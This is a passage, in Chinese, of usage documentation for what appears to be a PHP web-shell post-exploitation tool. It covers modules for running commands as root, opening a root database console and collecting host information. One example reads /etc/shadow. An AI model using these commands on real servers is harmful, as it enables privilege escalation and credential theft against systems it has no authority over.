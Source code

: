 一般形式：
```shell
:shell_su -user root <password> <cmd>
```

**通过更变使用者来执行shell命令，可以获得root权限来执行命令。**如一般情况下，/etc/shadow这个文件普通用户是不能查看的，需要升级为root用户，就可以这样：
```shell
:shell_su -user root 657260 cat /etc/shadow
```

## sql\_console

使用 sql\_console 连接数据库

```shell
www-data@Kali:/var/www/html PHP> :sql_console -user root -passwd root -host localhost
root@Kali SQL> SELECT USER();
+-----------+
| root@Kali |
+-----------+
root@Kali SQL> 
```

## system\_info

收集系统信息。
```shell
www-data@Kali:/ $ :system_info -h
usage: system_info [-h]
                   [-info {document_root,whoami,hostname,pwd,open_basedir,safe_mode,script,script_folder,uname,os,client_ip,max_execution_time,php_self,dir_sep,php_version} [{document_root,whoami,hostname,pwd,open_basedir,safe_mode,script,script_folder,uname,os,client_ip,max_execution_time,php_self,dir_sep,php_version} ...]]

Collect system information.

optional arguments:
  -h, --help            show this help message and exit
  -info {document_root,whoami,hostname,pwd,open_basedir,safe_mode,script,script_folder,uname,os,client_ip,max_execution_time,php_self,dir_sep,php_version} [{document_root,whoami,hostname,pwd,open_basedir,safe_mode,script,script_folder,uname,os,client_ip,max_execution_time,php_self,dir_sep,php_version} ...]
						Select information
```

选项-info，用来查看某一项信息，如以下命令用来查看本机（攻击者）ip:
```shell
:system_info -info client_ip 
```

也可以直接:system\_info列出全部信息。

